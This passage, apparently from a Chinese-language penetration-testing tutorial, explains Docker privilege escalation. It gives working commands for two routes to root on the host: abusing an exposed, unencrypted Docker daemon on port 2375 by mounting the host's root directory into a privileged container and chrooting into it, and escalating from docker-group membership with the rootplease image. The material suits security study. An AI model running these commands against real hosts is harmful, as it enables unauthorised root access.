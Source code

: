 2.这里直接上操作

```php
#连接 2375 端口
export DOCKER_HOST="tcp://127.0.0.1:2375"
#创建挂载宿主机根目录的容器
docker run --rm -it --privileged -net=host -v /: /tmp/docker alpine
cd /tmp/docker
#通过 chroot 切换 bash
chroot ./ bash
```

其实和第一种方法差别不大，无非是使用了 export 进行连接

值得一提的是：我们还可以关注 2376 端口

2375 端口-->未加密

2376 端口-->加密通讯

## Docker 用户组特性导致的权限提升

我们都知道 Docker 需要 root 权限才能跑起来，其运行的所有命令都是需要 sudo 来运行，。而 Docker 监护进程有一个特性，它能被允许访问 root 用户或者是在 docker 组里面的所有用户，这就如同拥有 root 的访问权限

简而言之，如果我们拿到了一个 docker 组内用户的权限，就可以提升到 root 权限

这是因为 Docker 守护进程会允许 root 用户和 docker 组用户访问 Docker，给用户提供 Docker 权限和给用户无需认证便可以随便获取的 root 权限差别不大

环境搭建：创建一个普通用户并且进入 docker 组

```php
adduser dockeruser
usermod -G docker dockeruser
newgrp docker
su dockeruser
```

![](assets/1703484795-76abf016c5a55c8b160b9ca6f115cd0f.png)

接下来我们以 dockeruser 的身份启动一个容器-->一个挂载了宿主机根目录的容器

```php
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```

![](assets/1703484795-43d72b51adc51abda8a8c5b0529d8aa1.png)
